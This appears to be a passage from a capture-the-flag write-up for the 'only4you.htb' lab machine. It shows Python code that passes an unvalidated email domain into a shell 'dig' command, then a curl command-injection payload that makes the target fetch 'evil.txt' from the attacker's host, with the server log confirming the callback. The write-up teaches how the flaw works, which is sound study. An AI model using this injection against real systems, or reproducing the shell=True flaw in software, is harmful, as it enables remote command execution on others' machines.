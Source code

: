 ```python
		msg['Subject'] = f'{subject}'
		msg['Message'] = f'{message}'

		smtp = smtplib.SMTP(host='localhost', port=25)
		smtp.send_message(msg)
		smtp.quit()
		return status
	elif status == 1:
		return status
	else:
		return status
```

We can identify a vulnerability that could allow an attacker to execute commands :

```python
def issecure(email, ip):
	if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
		return 0
	else:
		domain = email.split("@", 1)[1]
		result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

Providing an email address, the domain of this address is used as a non-validated parameter to the dig command line, allowing a remote command execution.

A basic call would be :

```shell
curl http://only4you.htb/ --data 'email=test@domain.com' --data 'subject=test' --data 'message=Hello'
```

In order to test this RCE, we will make it call back our attack host.

Start a HTTP web server to receive the call :

```shell
python3 -m http.server 80
```

And execute the comand that include a payload in the domain of the email :

```shell
curl http://only4you.htb/ --data 'email=test@domain.com|curl http://10.10.14.14/evil.txt' --data 'subject=test' --data 'message=Hello'
```

As a result, we receive the call :

```shell
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [24/Aug/2023 23:36:38] code 404, message File not found
10.10.11.210 - - [24/Aug/2023 23:36:38] "GET /evil.txt HTTP/1.1" 404 -
```
